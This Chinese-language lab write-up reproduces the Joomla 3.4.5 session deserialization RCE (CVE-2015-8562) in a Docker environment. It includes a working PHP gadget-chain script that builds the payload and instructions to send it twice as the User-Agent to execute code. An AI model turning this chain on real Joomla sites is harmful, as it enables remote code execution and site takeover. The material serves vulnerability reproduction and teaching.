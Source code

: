 # Joomla 3.4.5 反序列化漏洞（CVE-2015-8562）

Joomla是一个开源免费的内容管理系统（CMS），基于PHP开发。

本漏洞根源是PHP5.6.13前的版本在读取存储好的session时，如果反序列化出错则会跳过当前一段数据而去反序列化下一段数据。而Joomla将session存储在Mysql数据库中，编码是utf8，当我们插入4字节的utf8数据时则会导致截断。截断后的数据在反序列化时就会失败，最后触发反序列化漏洞。

通过Joomla中的Gadget，可造成任意代码执行的结果。

详情可参考：

 - https://www.leavesongs.com/PENETRATION/joomla-unserialize-code-execute-vulnerability.html

影响版本

 - Joomla 1.5.x, 2.x, and 3.x before 3.4.6
 - PHP 5.6 < 5.6.13, PHP 5.5 < 5.5.29 and PHP 5.4 < 5.4.45

## 测试环境

启动测试环境：

```
docker compose up -d
```

启动后访问`http://your-ip:8080/`即可看到Joomla的首页，包含测试数据。

## 漏洞复现

然后我们不带User-Agent头，先访问一次目标主页，记下服务端返回的Cookie：

![](2.png)

再用如下脚本生成POC：（[在线运行](https://onlinephp.io/c/e824b)）

```php
<?php
class JSimplepieFactory {
}
class JDatabaseDriverMysql {

}
class SimplePie {
    var $sanitize;
    var $cache;
    var $cache_name_function;
    var $javascript;
    var $feed_url;
    function __construct()
    {
        $this->feed_url = "phpinfo();JFactory::getConfig();exit;";
        $this->javascript = 9999;
        $this->cache_name_function = "assert";
        $this->sanitize = new JDatabaseDriverMysql();
        $this->cache = true;
    }
}

class JDatabaseDriverMysqli {
    protected $a;
    protected $disconnectHandlers;
    protected $connection;
    function __construct()
    {
        $this->a = new JSimplepieFactory();
        $x = new SimplePie();
        $this->connection = 1;
        $this->disconnectHandlers = [
            [$x, "init"],
        ];
    }
}

$a = new JDatabaseDriverMysqli();
$poc = serialize($a); 

$poc = str_replace("\x00*\x00", '\\0\\0\\0', $poc);

echo "123}__test|{$poc}\xF0\x9D\x8C\x86";
```

![](1.png)

将生成好的POC作为User-Agent，带上第一步获取的Cookie发包，这一次发包，脏数据进入Mysql数据库。然后同样的包再发一次，我们的代码被执行：

![](3.png)
